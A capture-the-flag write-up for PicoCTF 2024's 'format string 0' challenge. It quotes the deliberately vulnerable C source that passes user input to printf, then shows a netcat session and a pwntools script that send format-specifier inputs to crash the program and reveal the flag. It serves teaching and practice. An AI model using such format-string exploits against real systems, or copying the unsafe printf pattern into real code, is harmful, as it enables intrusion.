 ```yaml
---
title: Format String 0
parent: Easy
grand_parent: Pwn
great_grand_parent: PicoCTF
nav_order: 1
---
```



# format string 0 - PicoCTF 2024

**Category:** Binary Exploitation  
**Difficulty:** Easy  
**Tags:** Format String, pwntools

---

## Challenge Description

> Can you use your knowledge of format strings to make the customers happy?
> 
> Files provided:
> - `format-string-0` (binary)
> - `format-string-0.c` (source code)
> - Remote instance: `nc mimas.picoctf.net <port>`

> <details>
>   <summary>Hints</summary>
>   This is an introduction of format string vulnerabilities. Look up "format specifiers" if you have never seen them before.
>   Just try out the different options
> </details>

---

## Initial Analysis

Upon reading the description and reviewing the source code, it's clear that:

- A Format String attack with be at play

> Format String attacks are attacks where arbitrary code execution can occur, resulting in numerous vulnerabilities such as: RCE, buffer overflows, DoS, etc. This can occur when the printf() function does not handle its parameters appropriately.

---

## Source Code Analysis

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 32
#define FLAGSIZE 64

char flag[FLAGSIZE];

void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}

int on_menu(char *burger, char *menu[], int count) {
    for (int i = 0; i < count; i++) {
        if (strcmp(burger, menu[i]) == 0)
            return 1;
    }
    return 0;
}

void serve_patrick();

void serve_bob();


int main(int argc, char **argv){
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();
  
    return 0;
}

void serve_patrick() {
    printf("%s %s\n%s\n%s %s\n%s",
            "Welcome to our newly-opened burger place Pico 'n Patty!",
            "Can you help the picky customers find their favorite burger?",
            "Here comes the first customer Patrick who wants a giant bite.",
            "Please choose from the following burgers:",
            "Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice1[BUFSIZE];
    scanf("%s", choice1);
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    if (!on_menu(choice1, menu1, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        int count = printf(choice1);
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n",
                    "Patrick is still hungry!",
                    "Try to serve him something of larger size!");
            fflush(stdout);
        }
    }
}

void serve_bob() {
    printf("\n%s %s\n%s %s\n%s %s\n%s",
            "Good job! Patrick is happy!",
            "Now can you serve the second customer?",
            "Sponge Bob wants something outrageous that would break the shop",
            "(better be served quick before the shop owner kicks you out!)",
            "Please choose from the following burgers:",
            "Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice2[BUFSIZE];
    scanf("%s", choice2);
    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }
}
```

### Key Observations
- There are two individuals we must serve
- There are three options for us to choose from to serve each individual
- There are constraints that will dictate which options we choose
    - Patrick: `Gr%114d_Cheese` (passes since the printed characters exceed 64 bytes)
    - Bob: `Cla%sic_Che%s%steak` (triggers the vulnerability since it is the only option with `%s`)

---

## Static Binary Analysis

No binary analysis is necessary for this challenge.

---

## Exploitation

### Plan

1. Submit the necessary food based on our previous analysis
2. Receive the flag

### Manual Exploitation

```
$ nc mimas.picoctf.net 49618
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{<censored>}
```

### Automated Exploitation with pwntools

```python
from pwn import *
import sys

if len(sys.argv) != 2:
  print(f"Usage: {sys.argv[0]} <port>")
  sys.exit(1)

host = 'mimas.picoctf.net'
port = int(sys.argv[1])

conn = remote(host, port)

# First customer (Patrick)
conn.recvuntil(b"Enter your recommendation:")
conn.sendline(b"Gr%114d_Cheese")

# Second customer (Sponge Bob)
conn.recvuntil(b"Enter your recommendation:")
conn.sendline(b"Cla%sic_Che%s%steak")

# Receive flag
print(conn.recvall().decode())
```

## Key Takeaways
- Format String attacks can be utilized to exploit a program in various ways
- Binary analysis is not always necessary in a pwn challenges